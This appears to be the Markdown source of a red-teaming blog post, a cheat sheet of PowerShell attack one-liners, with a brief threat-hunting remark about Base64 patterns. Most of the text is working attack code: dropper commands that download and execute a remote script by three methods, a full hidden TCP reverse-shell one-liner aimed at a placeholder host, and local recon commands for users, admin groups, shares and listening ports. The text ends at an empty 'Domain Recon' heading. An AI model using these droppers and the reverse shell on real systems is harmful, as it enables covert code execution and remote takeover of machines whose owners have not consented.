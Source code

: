 ```yaml
---
layout: post
title:  "Powershell for Red Teaming"
date:   2025-06-16 21:00:00 +1000
categories: scripts
---
```


<style>
  body { font-size: 13px; }
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

## Red teaming powershell scripts. Droppers and more.

--- Threat Hunting Patterns ---
Base64 is deterministic. Meaning there is no randomness. So, identifying patterns is important when threat hunting and creating SIEM rules.
- SQBuAHYAbwBrAGUALQBX (Invoke-WebRequest)
- aQBlAHgAIAAoAE4AZQB3 (iex (New-Object Net.WebClient))

### Droppers
--- Unencoded Droppers ---
- ``` powershell -Command "Invoke-WebRequest -Uri 'https://google.com/safe-script.ps1' -OutFile $env:TEMP\Word.ps1; & $env:TEMP\Word.ps1" ``` (Downloads to disk)
- ``` powershell -Command "iex(New-Object Net.WebClient).DownloadString('https://google.com/safe-script.ps1')" ``` (Downloads to memory)
- ``` powershell -Command certutil -urlcache -split -f https://google.com/safe-script.ps1 payload.exe``` (LOLBAS Download)

### Reverse Shell One-Liners
--- TCP Rev Shell ---
- ``` powershell -NoP -NonI -W Hidden -Command "$c=New-Object Net.Sockets.TCPClient('RemoteIP',RemotePort);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){; $d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1 | Out-String);$r2=$r+'PS '+(pwd).Path+'> ';$sb=([text.encoding]::ASCII).GetBytes($r2);$s.Write($sb,0,$sb.Length)}" ```

### Recon Commands
--- Local Recon ---
- ```Get-Process```
- ```Get-LocalUser```
- ```Get-NetIPConfiguration```
- ```Get-NetTCPConnection | Where-Object {$_.State -eq "Listen"}```
- ```whoami /user```
- ```Get-LocalGroupMember -Group "Administrators"```
- ```Get-LocalGroup | ForEach-Object { Get-LocalGroupMember -Group $_.Name }```
- ```Get-SmbShare```
- ```net view \\hostname```
- ```Get-Service | Where-Object {$_.Status -eq 'Running'}``` 
--- Domain Recon ---